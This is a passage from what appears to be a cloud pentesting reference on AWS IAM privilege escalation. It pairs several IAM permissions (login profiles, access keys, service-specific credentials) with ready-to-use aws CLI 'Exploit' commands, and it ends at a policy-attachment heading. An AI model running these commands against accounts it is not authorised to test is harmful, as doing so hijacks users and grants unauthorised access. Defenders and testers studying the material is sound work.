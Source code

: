 Permits creating or updating a login profile, including setting passwords for AWS console login, leading to direct privilege escalation.

**Exploit for Creation:**

```bash
aws iam create-login-profile --user-name target_user --no-password-reset-required \
    --password '<password>'
```

**Exploit for Update:**

```bash
aws iam update-login-profile --user-name target_user --no-password-reset-required \
    --password '<password>'
```

**Impact:** Direct privilege escalation by logging in as "any" user.

### **`iam:UpdateAccessKey`**

Allows enabling a disabled access key, potentially leading to unauthorized access if the attacker possesses the disabled key.

**Exploit:**

{% code overflow="wrap" %}
```bash
aws iam update-access-key --access-key-id <ACCESS_KEY_ID> --status Active --user-name <username>
```
{% endcode %}

**Impact:** Direct privilege escalation by reactivating access keys.

### **`iam:CreateServiceSpecificCredential` | `iam:ResetServiceSpecificCredential`**

Enables generating or resetting credentials for specific AWS services (e.g., CodeCommit, Amazon Keyspaces), inheriting the permissions of the associated user.

**Exploit for Creation:**

{% code overflow="wrap" %}
```bash
aws iam create-service-specific-credential --user-name <username> --service-name <service>
```
{% endcode %}

**Exploit for Reset:**

{% code overflow="wrap" %}
```bash
aws iam reset-service-specific-credential --service-specific-credential-id <credential_id>
```
{% endcode %}

**Impact:** Direct privilege escalation within the user's service permissions.

### **`iam:AttachUserPolicy` || `iam:AttachGroupPolicy`**
